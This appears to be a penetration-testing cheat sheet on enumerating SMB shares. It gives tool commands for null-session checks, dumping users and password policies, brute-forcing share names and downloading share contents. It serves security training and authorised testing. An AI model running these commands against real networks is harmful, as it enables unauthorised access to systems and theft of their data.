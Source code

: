 # Shares enumeration

* `Server Message Block (SMB)` is a communication protocol for providing shared access to files, printers, and serial ports between nodes on a network.
* It uses uses either IP port 139 or 445.

## Enumerate network shares

### Nmap

```bash
nmap --script smb-enum-shares -p139,445 10.10.10.0/24
```

## Enumerate shares provided by a host

### SMBMap

```bash
smbmap -H 10.10.10.10
```

### smbclient

```bash
smbclient -L //10.10.10.10 -N
```

### CrackMapExec

```bash
crackmapexec smb 10.10.10.10 --shares
```

### Enum4linux

```bash
enum4linux -n 10.10.10.10
```

### nmblookup

```bash
nmblookup -A 10.10.10.10
```

## List a specific share

### SMBMap

```bash
smbmap -H 10.10.10.10 -s <sharename> -r
```

## Null Session attack

* If the host is vulnerable, it lets an attacker connect to a local or remote share without authentication (also known as anonymous or guest access). Most commonly the `IPC$` "Windows Named Pipe" administrative share is the one affected.

### Check if it's vulnerable

#### Enum4linux

```bash
enum4linux -n 10.10.10.10
```

#### smbclient

```bash
smbclient //10.10.10.10/IPC$ -N
```

#### SMBMap

```bash
smbmap -H 10.10.10.10 -u '' -p ''
```

### Retrieve information from a vulnerable machine

* Such as shares, users, groups and members, password policies, OS information and printers information.

#### Enum4linux

```bash
enum4linux -a 10.10.10.10
```

#### samrdump.py

* `samrdump.py` from the `Impacket` collection.

```bash
python samrdump.py 10.10.10.10
```

#### Available shares

##### Enum4linux

```bash
enum4linux -S 10.10.10.10
```

#### Brute forcing available shares

##### Enum4linux

```bash
enum4linux -s /usr/share/enum4linux/share-list.txt 10.10.10.10
```

#### Users

##### Nmap

```bash
nmap --script smb-enum-users 10.10.10.10
```

#### Password policy

##### Enum4linux

```bash
enum4linux -P 10.10.10.10
```

## Once valid credentials were obtained

### CrackMapExec

```bash
crackmapexec smb 192.168.1.17 -u '<username>' -p '<password>' --shares
```

### smbclient

```bash
smbclient -L 10.10.10.10 -U "vulnerable.local\<username>"
```

Press enter and it will ask for the password.

## Navigate the target machine share

### smbclient

```bash
smbclient \\\\10.10.10.10\\<sharename> -N
```

## Download files from a share

### smbclient

```bash
smb: \> get file.txt /root/Downloads/file.txt
```

```bash
smbget -R smb://10.10.10.10/<sharename> -a
```

* Options used:
  * `-R`: recursively download files.
  * `-a`: work as user guest.

## Troubleshooting

```bash
root@kali ~ » smbclient -L //10.10.10.10 -N
protocol negotiation failed: NT_STATUS_IO_TIMEOUT
```

In this case, a specific SMB configuration may be required. Edit the `samba` config file:

```bash
vi /etc/samba/smb.conf
```

Under `[global]` add the lines below:

```bash
client min protocol = CORE
client max protocol = SMB3
client use spnego = no
client ntlmv2 auth = no
```
